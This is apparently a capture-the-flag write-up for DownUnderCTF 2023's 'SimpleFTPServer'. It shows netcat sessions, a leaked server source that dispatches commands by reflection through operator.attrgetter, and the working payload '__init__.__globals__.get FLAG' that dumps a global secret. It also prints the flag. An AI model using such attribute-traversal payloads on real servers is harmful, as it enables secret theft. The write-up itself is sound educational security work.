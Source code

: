 # DownUnderCTF 2023

## SimpleFTPServer

> It always confused me why python had a simple HTTP server, but never a simple FTP server. So I made my own!
> 
> I hope I didn't leave secrets open to the global internet...
>
>  Author: BootlegSorcery@
>

Tags: _misc_

## Solution
For this challenge i got blood \o/

![](first.png)

All right, moving on. We don't have any attachment for this challenge, only a host and a port. Connecting with netcat we can enter some simple ftp commands.

```bash
$ nc 2023.ductf.dev 30029
220 vsFTPd (v2.3.4) ready...
LIST
150 Here comes the directory listing.
drwxr-xr-x 1 user group 4096 Aug 04 02:02 usr
drwxr-xr-x 1 user group 4096 Aug 04 02:06 lib64
drwxr-xr-x 1 user group 4096 Aug 21 01:13 lib
drwxr-xr-x 1 user group 4096 Aug 21 01:14 bin
drwxr-xr-x 1 user group 4096 Aug 21 01:12 kctf
drwxr-xr-x 1 user group 4096 Aug 30 04:23 chal
226 Directory send OK.
CWD chal
250 OK.
LIST
150 Here comes the directory listing.
-rwxr-xr-x 1 user group 7151 Aug 30 04:23 pwn
-rw-r--r-- 1 user group 27 Aug 31 02:14 flag.txt
226 Directory send OK.
RETR flag.txt
150 Opening data connection.
226 Transfer complete.
DUCTF{- Actually no, I don't feel like giving that up yet. ;)
```

Ok, that would have been too easy. But how to proceed? Next we can observer, that, if we enter unsupported commands the response is as following:

```bash
HELP
500 Sorry. 'FTPServerThread' object has no attribute 'HELP'
```

A quick google for `FTPServerThread` leads to a github [`repository`](https://gist.github.com/scturtle/1035886). This is interesting, as this seems to be the source of the ftp (or at least the ftp seems to be based on this source). This gives us a full list of commands but it doesnt lead to anything useful.

What else? Maybe we try to fetch the second file in `chal`.

```bash
RETR pwn
150 Opening data connection.
226 Transfer complete.
#!/usr/bin/env python3
# Adapted from: https://gist.github.com/ZoeS17/467387af22de19c028f0430dcfc5ada8#file-ftpserver-py-L83
# FTP spec comments borrowed from Wikipedia

import os,time,operator,sys
allow_delete = False
local_ip = '0.0.0.0'
local_port = 1337
currdir = os.path.abspath('.')
ENCODING = "utf-8"
```

This is nice, it leaks the (adapted) source code of the ftp server. Inspecting the code we can see a few comments and also that functionality was disabled, like copying files etc.. This all looks well but nothing really helps. 

Since no of the command handlers seem to be helpful we take a step back and look at how user input is handled.

```python
func=operator.attrgetter(cmd)(self)
msg = func(args)
```

This looks interesting, there is no hardcoded list of command handler functions but reflections are used with the user input. This means we basically can lookup and run any functionality.

To build the payload I ran the code locally and put in a few `print` statement to follow what happens. But what are we looking for? If we scroll up a bit, we can see that the flag is read into a global variable `FLAG`. What we ideally want to have is a way to read the value of `FLAG` and pass it to `msg` so it is printed for us.

After a while I found the following payload to be working: `__init__.__globals__.get FLAG`.

```bash
$ nc 2023.ductf.dev 30029
220 vsFTPd (v2.3.4) ready...
__init__.__globals__.get FLAG
DUCTF{15_this_4_j41lbr34k?}
```

Flag `DUCTF{15_this_4_j41lbr34k?}`
